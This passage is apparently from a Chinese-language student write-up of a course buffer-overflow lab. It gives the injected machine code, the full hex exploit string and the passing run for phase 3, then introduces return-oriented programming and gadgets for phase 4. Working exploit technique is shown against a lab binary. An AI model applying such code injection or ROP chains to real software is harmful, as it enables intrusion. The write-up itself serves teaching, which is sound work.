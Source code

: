 这里我们将cookie的字符串表示放在0x5566f7c8，编译再反汇编得到机器码

```assembly
phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 c8 f7 66 55    mov    $0x5566f7c8,%rdi
   7:   68 a0 17 40 00          pushq  $0x4017a0
   c:   c3                      retq
```

查表得出cookie字符串的16进制表示为36 33 31 34 39 33 38  30，注意：以字符串形势比较时不用再反转输入，且字符串应有结尾字符‘\0’，得到攻击字符串如下

```bash
48 c7 c7 c8 f7 66 55 68
a0 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
a8 f7 66 55 00 00 00 00
36 33 31 34 39 33 38 30
00
```

转换输入运行

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase3 | ./ctarget -q
Cookie: 0x63149380
Type string:Touch3!: You called touch3("63149380")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:3:48 C7 C7 C8 F7 66 55 68 A0 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 A8 F7 66 55 00 00 00 00 36 33 31 34 39 33 38 30 00
```

## 第二阶段

在此阶段，程序添加了两个现代计算机程序几乎必须的对抗缓缓冲区溢出攻击的措施：  

1.函数栈随机化 ，无法再获取绝对地址。  

2.栈内存的内容被锁定为不可执行。  

故此，我们需要使用ROP(面向返回编程)，即使用程序中本来就存在的代码组成我们需要的操作，再将其地址作为返回值，不断用ret指令返回完成所需操作。

### phase_4

此关需用ROP方法完成phase_2内容。那么就需要在操作中得到cookie值，那么只有用pop指令了，需要指令为。

```assembly
popq 	%rax
movq	%rax,%rdi
ret
```
